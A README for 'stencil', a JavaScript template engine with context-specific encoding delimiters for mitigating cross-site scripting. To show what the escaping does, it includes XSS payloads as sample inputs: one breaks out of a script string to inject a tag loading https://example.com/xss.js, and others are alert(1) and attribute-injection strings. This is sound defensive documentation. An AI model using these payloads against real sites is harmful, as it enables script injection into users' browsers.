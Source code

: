 # stencil

A lightweight template engine with comprehensive encoding methods for mitigating
the risk of cross-site scripting (XSS) attacks.

## Installation

```
npm install https://github.com/mikol/stencil
```

## Usage

```javascript
var template = '<script>alert("Hello, !{name}!")</script>';
var locals = {
  name: '");' +
    'var $dq=document;' +
    'var $xp=$dq.createElement("script");' +
    '$xp.setAttribute("src", "https://example.com/xss.js");' +
    '$dq.getElementsByTagName("head")[0].appendChild($xp);'
};

stencil(template, locals);
```

```html
<script>alert("Hello, \x22\x29\x3bvar\x20\x24dq\x3ddocument\x3bvar\x20\x24xp\x3d\x24dq\x2ecreateElement\x28\x22script\x22\x29\x3b\x24xp\x2esetAttribute\x28\x22src\x22\x2c\x20\x22https\x3a\x2f\x2fexample\x2ecom\x2fxss\x2ejs\x22\x29\x3b\x24dq\x2egetElementsByTagName\x28\x22 head\x22\x29\x5b0\x5d\x2eappendChild\x28\x24xp\x29\x3b!");</script>
```

## Encoding Delimiters

### Echo

Use `${...}` to output a raw, unencoded value.

```javascript
stencil('Hello, ${name}!', {name: 'Ŵøяłð"&\'/<>`'});
```

Result:

```html
Hello, Ŵøяłð"&'/<>`!
```

### Base64

Use `+{...}` to base64 encode a value; then output it.

```javascript
stencil('Hello, +{name}!', {name: 'Ŵ🜘я🜯🜱'});
```

Result:

```html
Hello, xbTwn5yY0Y/wn5yv8J+csQ==!
```

### Base64ni

Use `-{...}` to base64 encode a value with a URL- and filename-safe alphabet and
without `'='` padding characters; then output it.

```javascript
stencil('Hello, -{name}!', {name: 'Ŵ🜘я🜯🜱'});
```

Result:

```html
Hello, xbTwn5yY0Y_wn5yv8J-csQ!
```

### CSS Properties

Use `:{...}` to make a value safe for inclusion in a CSS property; then
output it.

```javascript
stencil('<style>background-url: :{property};</style>', {
  property: 'javascript:alert(1)'
});
```

Result:

```html
<style>background-url: javascript\00003aalert\0000281\000029;</style>
```

### HTML Attributes

Use `={...}` to make a value safe for inclusion in an HTML attribute; then
output it.

```javascript
stencil('<span class="={cname}">Hello, World!</span>', {
  cname: '"\'%*+,-/<;>^| = risqué busịness'
});
```

Result:

```html
<span class="&#34;&#39;&#37;&#42;&#43;&#44;&#45;&#47;&lt;&#59;&gt;&#94;&#124;&#32;&#61;&#32;risqu&#233;&#32;busịness">Hello, World!</span>
```

### HTML Elements

Use `>{...}` to make a value safe for inclusion within an HTML element; then
output it.

```javascript
stencil('<span>Hello, >{name}!</span>', {
  name: '<script>alert(1);</script>'
});
```

Result:

```html
<span>Hello, &lt;script&gt;alert(1);&lt;&#47;script&gt;!</span>
```

### JavaScript Strings

Use `!{...}` make a value safe for inclusion within a quoted JavaScript string;
then output it.

```javascript
stencil('<script>alert("Hello, !{name}!")</script>', {
  name: '");alert(1);"'
});
```

Result:

```html
<script>alert("Hello, \x22\x29\x3balert\x281\x29\x3b\x22!")</script>
```

### URI Components

Use `%{...}` to make a value safe for inclusion in a URL context; then output
it. Every non-alphanumeric character `/[^0-9A-Za-z]/` in the ASCII range [0–255) will be URL-encoded (which is more extensive than `encodeURIComponent()`).

```javascript
stencil('<a href="/help/kbid=%{kbid}">...</a>', {
  kbid: '" onclick="alert(1)'
});
```

Result:

```html
<a href="/help/kbid=%22%20onclick%3d%22alert%281%29">...</a>
```

### Embedded JavaScript

Arbitrary JavaScript enclosed in back ticks will be evaluated when the template
is rendered and can be interleaved with plain template text to take advantage of
conditions, loops, and other JavaScript features.

```html
`if (typeof window === 'object') {`
  <pre style="color:#090">This will render if the expression is true.</pre>
`} else {`
  <pre style="color:#c00">Otherwise this will.</pre>
`}`
```
